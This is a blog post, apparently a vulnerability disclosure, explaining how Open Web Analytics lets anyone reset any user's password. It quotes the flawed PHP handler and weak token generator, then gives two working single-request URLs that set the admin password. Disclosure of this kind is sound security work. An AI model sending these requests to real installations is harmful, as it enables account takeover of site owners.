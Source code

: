 ```yaml
---
layout: post
title: "Resetting any user's password in Open Web Analytics with a single request"
thumbnail: sheep-480.jpg
date: 2025-06-25
---
```


Open Web Analytics (OWA) is a web app that tracks website visitors. I discovered a simple way to reset any user's password, by simply requesting a URL.

## Introduction

OWA is a PHP application that has all of its files in the webroot and does not use a well-known framework, which makes it a good candidate to find vulnerabilities. I recently did a [Hack the Box](https://www.hackthebox.com/) exercise where the goal was to exploit [a vulnerability](https://devel0pment.de/?p=2494) in OWA. This gave the final push to seriously look into it.

OWA has typical password reset functionality that stores a random token in the database and mails it to the user. The password reset form authenticates the user with the token and resets the password if it matches. OWA calls the password reset token the "temp pass key", and it is generated using a predictable method, which lacks cryptographic randomness:

```php
function generateTempPasskey($user_id) {
    return md5($user_id.time().rand());
}
```

The values of `$user_id`, `time()` and `rand()` can be deduced, after which an attacker can create their own password reset token.

When looking how to exploit this, I figured out how the password reset mechanism worked and found a much simpler vulnerability.

## Password reset vulnerability

The application accepts a password reset event with only the user ID, completely bypassing the need for a reset token.

When a user wants to reset their password, they request a password reset email, receive a link with the password reset token, click the link and submits a new password. Then:

1. the new password and reset token are submitted to the application.
2. the application verifies the password reset token.
3. if it matches, it dispatches an event to set a new password for this user.
4. the event handler actually updates the password row in the database.

The event handler doesn't necessarily need the password reset token. It is also happy when given just the user ID:

```php
public function updateUserPassword($user_params)
{
    $u = owa_coreAPI::entityFactory('base.user');

    if (!isset($user_params['temp_passkey']) && !isset($user_params['user_id'])) {
        owa_coreAPI::error( "No user identification given!" );
        return false;
    }

    if (isset($user_params['temp_passkey'])) {
        $u->getByColumn('temp_passkey', $user_params['temp_passkey']);
    }

    if (isset($user_params['user_id'])) {
        $u->getByColumn('user_id', $user_params['user_id']);
    }

    $u->set('temp_passkey', $u->generateTempPasskey($user_params['user_id']));
    $u->set('password', owa_lib::encryptPassword($user_params['password']));
    $ret = $u->update();

    return $ret ? $u : false;
}
```

The normal flow first checks the password reset token and then dispatches the event. However, we can also dispatch such an event ourselves, through queue.php. This bypasses step 1 and 2 in the flow, and thus bypasses the first check on the password reset token. By including a user ID instead of a password reset token in the event, we also bypass the second check on the password reset token. So by dispatching an event and including a user ID and omitting the password reset token, we can reset any user's password. Requesting one of the URLs below set the password of user `admin` to `abc`:

```
queue.php?owa_event[eventType]=base.set_password&owa_event[properties][user_id]=admin&owa_event[properties][password]=abc&owa_event[properties][key]=

log.php?owa_event_type=base.set_password&owa_user_id=admin&owa_password=abc&owa_key=
```

## Read more

- [From Single / Double Quote Confusion To RCE (CVE-2022-24637) – devel0pment.de](https://devel0pment.de/?p=2494)

## Technical details

The password reset mechanism works through these classes/methods:

- the new password and the reset token are submitted to `index.php?owa_do=base.usersPasswordEntry`, along with a parameter `owa_action=base.usersChangePassword`.
- `owa_usersChangePasswordController` verifies the password reset token.
- If it matches, it creates a `base.set_password` event to reset the user's password.
- The event triggers `owa_usersSetPasswordController` (through `owa_userHandlers`).
- This calls `owa_userManager::updateUserPassword`, which actually updates the password row in the database.
